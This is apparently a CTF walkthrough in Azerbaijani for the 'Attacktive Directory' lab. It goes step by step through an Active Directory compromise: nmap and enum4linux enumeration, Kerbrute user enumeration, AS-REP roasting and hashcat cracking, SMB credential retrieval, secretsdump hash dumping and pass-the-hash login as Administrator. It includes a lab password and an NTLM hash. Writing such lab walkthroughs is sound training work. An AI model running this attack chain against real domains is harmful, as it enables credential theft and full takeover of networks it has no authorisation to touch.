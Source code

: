 # Attacktive Directory CTF

Nmap, cihazda hansı portların açıq olduğunu, hansı xidmətlərin işlədiyini aşkar etmək və hətta hansı əməliyyat sisteminin işlədiyini aşkar etmək üçün illər ərzində təkmilləşdirilmiş nisbətən mürəkkəb bir yardım proqramıdır.

```bash
sudo nmap -sV 10.10.56.170 -T4 -vv
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/50ffca3483cc27315a55a5c892b785a6ac0910aa/img/nmap.png)

* Əvvəlcə Impacket Github repo-nu qutunuza klonlamalı olacaqsınız. Aşağıdakı komanda Impacket-i `/opt/impacket-ə` klonlayacaq:
```bash

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install

```
* Hələ də problem yaşayırsınızsa, aşağıdakı skripti sınaqdan keçirə və bunun işlədiyini yoxlaya bilərsiniz:
```bash
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```
# Bloodhound və Neo4j quraşdırılması

Bloodhound, Attacktive Directory-ə hücum edərkən istifadə edəcəyimiz başqa bir vasitədir. Alətin xüsusiyyətlərini daha sonra nəzərdən keçirəcəyik, lakin hələlik Apt ilə iki paket quraşdırmalıyıq, bunlar `bloundhound` və `neo4j`. Onu aşağıdakı əmrlə quraşdıra bilərsiniz:

* link: https://www.kali.org/tools/bloodhound/

- Problemlərin aradan qaldırılması (**Troubleshooting**)

Bloodhound və Neo4j quraşdırmaqda probleminiz varsa, aşağıdakı əmri verməyə cəhd edin:
```bash
sudo apt update && apt upgrade
sudo neo4j console

#Yükləmək istədikdə , hər hansı bir problem olsa, onda bu linkə keçid edin:
link: https://www.kali.org/tools/bloodhound/
```
![image alt]()

#  Evil-WinRM :
`https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm`

Note : **Evil-WinRM** Windows serverlərinə və iş stansiyalarına **Windows Remote Management (WinRM)** vasitəsilə qoşulmaq üçün istifadə olunan bir alətdir.

```bash
sudo apt install evil-winrm

link : https://www.kali.org/tools/evil-winrm/
```

# Enum4linux:
Enum4linux Windows sistemlərində informasiya toplamaq üçün istifadə olunan bir Linux alətidir. Əsas məqsədi Windows sistemləri haqqında mümkün qədər çox məlumat əldə etməkdir, xüsusilə də Active Directory və ya şəbəkə sınaqları zamanı.

```bash
 enum4linux -a 10.10.56.170 
```
NetBIOS və SMB (Server Message Block) protokolu vasitəsilə məlumat toplamaq:
(139/445)
Sistem adları, domen adları və iş qrupları haqqında məlumat.
Paylaşılan resursların siyahısını çıxarmaq (shared folders).
Aktiv istifadəçilər və qruplar haqqında məlumat.

![image alt]()

```bash
# nmap scan vasitəsilə default skriptləri yoxladıq
sudo nmap -sCV  10.10.56.170 -T4 -vv  
```
![image alt]()

# Kerberos
- Kerberos Active Directory daxilində əsas autentifikasiya xidmətidir. Bu portun açıq olması ilə istifadəçiləri, parolları və hətta parol spreyini kobud güclə tapmaq üçün `Kerbrute` adlı alətdən  istifadə edə bilərik!
1. Kerbrute yuklemek ucun: https://github.com/ropnop/kerbrute/releases
2. Parollar üçün wordlists: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
3. İstifadəçilər üçün wordlists : https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

```bash
kerbrute userenum --dc 10.10.56.170 -d spookysec.local userlist.txt
```

![image alt]()

**ASREProasting** adlı hücum metodu ilə **Kerberos** sistemindəki bir zəiflikdən sui-istifadə etmək mümkündür. Bu hücum, istifadəçi hesabının **"Ön Doğrulama Tələb Etmir"** (Pre-Authentication Not Required) imtiyazına malik olduğu hallarda baş verir.

Bu nə deməkdir?

- Belə hesablar **Kerberos Bileti (TGT - Ticket Granting Ticket)** tələb etməzdən əvvəl hər hansı bir identifikasiya (məsələn, düzgün parol və ya hər hansı digər təsdiq mexanizmi) təqdim etməyə ehtiyac duymur.
- Bu, hücumçuya həmin hesabın **encrypted bileti**ni əldə edib **offline brute-force hücumu** vasitəsilə parolu açmağa imkan verir.

Bu üsul, xüsusilə zəif və düzgün konfiqurasiya olunmamış Kerberos sistemlərini hədəfləmək üçün istifadə edilir.

_________________________________________________________________________________________________________________________
**Kerbrute** alətindən istifadə edərək sistemdə mövcud olan istifadəçi adlarını müəyyən edib onları bir faylda saxlamışam. Daha sonra isə **Impacket**-in `GetNPUsers.py` skriptindən istifadə edərək, parolsuz **AS-REP Roasting** hücumunu həyata keçirirəm.

Bu proses mənə, hansı istifadəçilərin **Kerberos biletlərini (TGT)** parol təqdim etmədən əldə edə biləcəyimi öyrənməyə imkan verir. Əsas məqsəd, "Ön Doğrulama Tələb Etmir" imtiyazına malik olan hesabları aşkarlamaqdır. Bu cür zəifliklər, düzgün konfiqurasiya olunmamış Active Directory mühitlərində istifadə edilə bilər.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.56.170 spookysec.local/ -no-pass -usersfile
enum-useers
```

# Ümumi hash növləri
link: https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
#GetNPUsers.py ilə əldə etdiyimiz hash yeni bir fayla yazırıq,
#ve onu hashcat ilə crack etməyə çalışacağıq.

hashcat -m 18200 yeni-hash passwordlist.txt 

nəticə : management2005
```
# SMBClient
SMBClient — SMB (Server Message Block) protokolunu istifadə edərək, şəbəkə üzərindən fayl paylaşımı, çap xidmətləri və digər şəbəkə resurslarına daxil olmaq üçün istifadə olunan bir alətdir

```bash
smbclient -L //10.10.143.217/  -U svc-admin
smbclient  //10.10.143.217/backup -U svc-admin
get backup_credentials.txt


#Bu komanda, base64 ilə kodlaşdırılmış mətni deşifrə edir.
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

![image alt]()
![image alt]()
![image alt]()
![image alt]()

# Credential Dumping: Secretsdump aləti ilə Active Directory-dən istifadəçi məlumatlarını ələ keçirdim.
```bash
secretsdump.py 'spookysec.local/svc-admin:management2005@10.10.143.217'
```
![image alt]()

```bash
secretsdump.py 'spookysec.local/backup:backup2517860@10.10.143.217' 
```
![image alt]()

# Pass the hash with evil-winrm

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.50.82
```
![image alt]()
![image alt]()
![image alt]()
![image alt]()
![image alt]()
